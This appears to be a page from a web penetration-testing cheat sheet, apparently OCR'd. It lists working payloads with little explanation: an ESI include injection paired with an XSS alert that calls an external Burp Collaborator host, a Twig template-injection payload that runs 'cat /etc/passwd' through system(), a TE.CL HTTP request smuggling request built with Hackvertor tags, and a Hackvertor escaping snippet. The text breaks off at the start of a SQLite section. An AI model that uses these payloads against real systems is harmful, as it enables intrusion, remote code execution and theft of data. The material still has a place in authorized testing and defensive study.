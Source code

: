 ```html
```
```xml
<esi:include src="/anypage.html" dca="none" />
```
XSS  
```
<esi:include src="http://abcdef.burpcollaborator.net/" /><script>alert(1)</script>
```
 - https://twitter.com/alxbrsn/status/981256374230319112
 - https://t.co/XRxIalWcng?amp=1 
 - https://t.co/vzRIo3RuaR?amp=1
 - https://www.slideshare.net/cisoplatform7/edge-side-include-injection-abusing-caching-servers-into-ssrf-and-transparent-session-hijacking  
 
 ### SSTI  
 Twig3 RCE:  
```
{{['cat${IFS}/etc/passwd']|filter('system')}}
```
 
 ### Request Smuggling  
 TE.CL + Hackvertor  
 *(disable “Update Content-Length” in Repeater && “Auto Update Content Length” in Hackvertor Settings)*  
 ```
 POST / HTTP/1.1
Host: abc.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

<@chunked_dec2hex_4><@get_var_3 /><@/chunked_dec2hex_4>
<@set_var_1><@length_2>GPOST / HTTP/1.1
Host: abc.com
Content-Length: 15

x=1<@/length_2><@/set_var_1>
0
```
 ### Hackvertor  
 JSON escape:
```xml
 <@python_4("import json;output = json.dumps(input)","7d808063a7c69f9dad4f4a3cb1c2bd1a")>test123'<>"<@/python_4>
 Result: "test123'<>\""
```
### SQL Injection
#### SQLite  
Connect:  
`$ sqlite3 test.db`  
